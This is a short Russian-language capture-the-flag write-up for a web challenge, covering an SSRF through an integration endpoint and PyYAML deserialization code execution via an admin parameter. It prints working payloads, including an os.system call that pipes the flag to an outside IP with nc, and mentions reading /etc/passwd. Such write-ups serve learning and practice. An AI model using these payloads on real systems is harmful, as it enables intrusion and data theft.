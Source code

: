 1. Смотрим, какие проверки делает сайт и направляем его на наш сервер http://b121.ctf2019.rocks/integration/89.163.129.121:9999. 
Видим, что он отправляет  {"key": "test_key", "value": "test_value"} и проверяет value. Запускаем  
```
value while true; do echo -e "HTTP/1.1 200 OK\n\n  test_value" | nc -l -v -p 9999 -q 1;done
```
на 89.163.129.121 и получаем 1-й флаг.

2. Видим, что запросы через http://b121.ctf2019.rocks/integration/ на закрытый порт падают с ошибкой из библиотеки urllib3 
питона.

3. Находим адимнку. Проверям как сайт реагирует на параметры в  http://localhost/admin/?blacklist= . Видим, что он падает с 500
ошибкой про несбалансированных кавычках. Поиск по python remote code execution привел к уязвимости в биклиотеке pyyaml. 
Передаем http://localhost/admin/?blacklist=!!python/object/apply:os.system ["sleep 5"] и подтверждаем уязвимость. 
Достаем флаг в http://localhost/admin/?blacklist=!!python/object/apply:os.system [" cat flag | nc 89.163.129.121:9999"]
Находим дополнительные флаги в ./integration.db  и /etc/passwd
